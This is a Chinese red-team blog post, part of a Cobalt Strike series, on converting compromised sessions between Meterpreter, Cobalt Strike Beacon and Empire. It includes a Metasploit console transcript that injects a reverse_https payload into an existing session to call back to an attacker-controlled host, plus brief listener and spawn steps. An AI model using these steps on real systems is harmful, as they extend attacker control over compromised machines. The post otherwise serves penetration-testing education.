 ```yaml
---
layout:     post
title:    Cobalt Strike系列 5
subtitle:   Cobalt Strike 会话转换
date:       2019-08-14
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - Cobalt Strike
    - 红队
---
```


# Cobalt Strike系列 5 会话转换


# 简介

- Meterpreter转Beacon
- Beacon转Meterpreter
- Empire转Beacon


## Meterpreter转Beacon
首先我们先拿到一个Meterpreter，用backgroud挂起，然后利用payload_inject模块。  
```
meterpreter > background 
[*] Backgrounding session 1...
msf5 exploit(multi/handler) > use exploit/windows/local/payload_inject
msf5 exploit(windows/local/payload_inject) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf5 exploit(windows/local/payload_inject) > set lhost 1xx.xxx.xxx.xxx
lhost => 1xx.xxx.xxx.xxx
msf5 exploit(windows/local/payload_inject) > set lport 11414
lport => 11414
msf5 exploit(windows/local/payload_inject) > set session 1
session => 1
msf5 exploit(windows/local/payload_inject) > set disablepayloadhandler true
disablepayloadhandler => true
msf5 exploit(windows/local/payload_inject) > exploit -j
[*] Exploit running as background job 4.
```
其中设置disablepayloadhandler是为了防止msf的payload handler监听冲突。  
在cs中根据上面设置的pyayload设置一个监听器即可。  
![msf2cs](/img/msf2cs.png)  


## Beacon转Meterpreter
Beacon转为Meterpreter很简单，可以直接利用spawn功能，派生会话。  
![spawn](/img/spawn.png)  
然后设置监听器，根据msf里的配置来即可。   
![spawnlistener](/img/spawnlistener.png)  
然后msf中就会接收到返回的Meterpreter。  


## Beacon转Empire
开启Empire监听后，类似上面操作，派生会话使用外部监听。  
![empire](/img/pmpire.png)  


## 结语
写的比较水，因为很多情况下资源不足，时间也不充裕，但是日更不能断，读个大概，有不懂的你可以百度啊。  










